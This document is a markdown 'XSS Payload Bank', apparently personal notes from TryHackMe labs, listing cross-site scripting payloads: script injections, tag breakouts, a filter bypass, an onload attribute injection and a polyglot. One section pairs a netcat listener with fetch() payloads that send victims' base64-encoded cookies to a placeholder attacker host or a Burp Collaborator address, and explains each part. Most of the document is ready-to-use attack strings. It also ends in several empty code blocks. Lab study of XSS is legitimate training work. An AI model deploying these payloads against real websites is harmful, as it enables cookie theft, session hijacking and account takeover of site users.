 # XSS Payload Bank
**Update:** Use `print()` instead of `alert()` on Chrome
## THM Payloads
```javascript
<script>alert('THM');</script> 
```

`// Checking for XSS Vulnerability`



```javascript
"><script>alert('THM');</script>
```
` // Closing a tag before injecting payload`
```javascript
</textarea><script>alert('THM');</script> 
```
`// Closing a tag before injecting payload`

---
```javascript
';alert('THM');//

```

**NOTE**

The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

---

```javascript
<sscriptcript>alert('THM');</sscriptcript>
```
`Bypassing the filter`
```javascript
/images/cat.jpg" onload="alert('THM');
```
`Taking advantage of the onload="" attribute of the <img> tag`

### Polyglots

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. 
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
### Sending Cookie to Hacker's Site
```bash
nc -lvnp <port>
```
```javascript
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
```
***Using Burp Collaborator:***
```javascript
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
- The </textarea> tag closes the text area field.
- The <script> tag opens an area for us to write JavaScript.
- The fetch() command makes an HTTP request.
- URL_OR_IP is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- PORT_NUMBER is the port number you are using to listen for connections on the AttackBox.
?cookie= is the query string containing the victim’s cookies.
- btoa() command base64 encodes the victim’s cookies.
- document.cookie accesses the victim’s cookies for the Acme IT Support Website.
- </script>closes the JavaScript code block.

### A Repository of Polygots
[Ultimate XSS Polygot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)



```javascript

```

```javascript

```

```javascript

```

```javascript

```

```javascript

```

```javascript

```
